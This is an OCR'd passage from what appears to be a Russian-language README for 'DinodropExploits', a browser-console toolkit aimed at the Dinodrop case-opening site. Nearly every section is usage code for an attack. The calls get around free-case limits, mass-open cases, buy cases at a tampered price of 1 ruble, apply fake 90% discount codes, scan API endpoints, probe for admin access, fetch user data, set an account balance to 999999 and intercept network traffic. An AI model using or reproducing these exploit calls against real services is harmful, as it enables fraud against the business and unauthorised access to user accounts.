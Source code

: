 ### 2. Обход ограничений бесплатных кейсов

```javascript
// Попытка открыть бесплатный кейс (даже если лимит исчерпан)
await DinodropExploits.CaseExploit.openFreeCase(1)

// Массовое открытие бесплатных кейсов
const caseIds = [1, 2, 3, 4, 5];
await DinodropExploits.AutomationExploit.massOpenFreeCases(caseIds, 500)
```

### 3. Манипуляция ценами

```javascript
// Попытка купить кейс за 1 рубль вместо реальной цены
await DinodropExploits.PriceExploit.buyWithModifiedPrice(1, 100, 1)

// Применение фейкового промокода на 90% скидку
await DinodropExploits.PriceExploit.applyFakeDiscount(1, 90)
```

### 4. Перечисление API эндпоинтов

```javascript
// Сканирование доступных API эндпоинтов
await DinodropExploits.APIExploit.scanEndpoints()

// Проверка административного доступа
await DinodropExploits.APIExploit.checkAdminAccess()
```

### 5. Попытки обхода аутентификации

```javascript
// Попытка доступа к данным пользователя
await DinodropExploits.AuthExploit.getUserData()

// Попытка изменить баланс аккаунта
await DinodropExploits.AuthExploit.modifyBalance(999999)
```

## 🔍 Аналитические функции

### Перехват сетевых запросов

```javascript
// Включить перехват всех HTTP запросов
DinodropExploits.Utils.interceptNetworkRequests()

// Теперь все запросы будут логироваться в консоль
// Попробуйте открыть кейс через интерфейс сайта
```
